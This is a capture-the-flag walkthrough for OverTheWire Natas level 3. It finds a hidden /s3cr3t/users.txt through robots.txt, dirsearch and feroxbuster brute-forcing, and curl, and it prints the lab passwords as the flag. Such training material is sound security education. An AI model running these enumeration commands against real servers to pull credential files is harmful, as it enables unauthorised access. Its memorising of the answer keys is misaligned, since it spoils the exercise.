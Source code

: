 ```yaml
---
layout: default
level: 3
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas3 \
URL:      http://natas3.natas.labs.overthewire.org

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
  ```bash
  echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

  dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

  feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
  # 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
  # 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
  ```

- after u found the directory and the file u can curl the flag
  ```bash
  curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
  natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
  ```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ